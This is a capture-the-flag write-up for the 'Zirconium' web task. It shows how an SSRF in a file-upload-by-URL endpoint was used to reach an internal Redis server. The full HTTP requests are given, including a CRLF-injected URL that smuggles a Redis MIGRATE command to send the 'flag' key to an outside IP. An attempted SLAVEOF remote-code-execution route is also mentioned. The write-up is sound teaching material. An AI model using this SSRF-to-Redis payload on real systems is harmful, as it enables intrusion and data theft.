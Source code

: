# Zirconium

**Tags:** SSRF, REDIS, OOB

**Help links:** 
- https://2018.zeronights.ru/wp-content/uploads/materials/15-redis-post-exploitation.pdf
- https://blog.csdn.net/qq_31481187/article/details/73315511#0x1-ssrf

## Description

The web app had methods for uploading files by sending a file and by sending a link on the file.

## Solution

The second method `/upload_from_url` had SSRF vulnerability

Request example:

```
POST /upload_from_url HTTP/1.1
Host: web-zirconium.ctfz.one
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-GB,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------6763777581250035135507995344
Content-Length: 471
Origin: http://web-zirconium.ctfz.one
Connection: close
Referer: http://web-zirconium.ctfz.one/
Cookie: session=eyJ1c2VybmFtZSI6ImphY2sifQ.XeJl0w.6blTy3b36OuRefMkMCjIhvlTYhg
Upgrade-Insecure-Requests: 1

-----------------------------6763777581250035135507995344
Content-Disposition: form-data; name="url"

http://oob.server.som/
-----------------------------6763777581250035135507995344
Content-Disposition: form-data; name="filename"

jack
-----------------------------6763777581250035135507995344--
```

After we found the SSRF, we started looking for a local tcp ports.

There was 2 open ports: 8080, 6379 (Redis)

Redis had old version (Like 3.0.\*) and could get HTTP request.

SSRF in redis was blind! (We couldn't read answers) After trying to make a RCE with SLAVEOF, we realized that the SLAVEOF command is disabled. And after some searches we found the `KEY flag`, that we could send ourselves with the MIGRATE command.

To use MIGRATE command we used Redis multi-line syntaxys like this:

```
http://127.0.0.1
*8
$7
MIGRATE
$14
111.111.211.11
$4
1338
$0

$1
0
$4
5000
$4
KEYS
$4
flag
:6379/
```

The final request looks like:

```
POST /upload_from_url HTTP/1.1
Host: web-zirconium.ctfz.one
Content-Type: multipart/form-data; boundary=---------------------------6763777581250035135507995344
Content-Length: 471
Origin: http://web-zirconium.ctfz.one
Connection: close
Referer: http://web-zirconium.ctfz.one/
Cookie: session=eyJ1c2VybmFtZSI6ImphY2sifQ.XeJl0w.6blTy3b36OuRefMkMCjIhvlTYhg
Upgrade-Insecure-Requests: 1

-----------------------------6763777581250035135507995344
Content-Disposition: form-data; name="url"

http://127.0.0.1%0d%0a*8%0d%0a$7%0d%0aMIGRATE%0d%0a$14%0d%0a111.111.211.11%0d%0a$4%0d%0a1338%0d%0a$0%0d%0a%0d%0a$1%0d%0a0%0d%0a$4%0d%0a5000%0d%0a$4%0d%0aKEYS%0d%0a$4%0d%0aflag%0d%0a:6379/
-----------------------------6763777581250035135507995344
Content-Disposition: form-data; name="filename"

jack
-----------------------------6763777581250035135507995344--
```
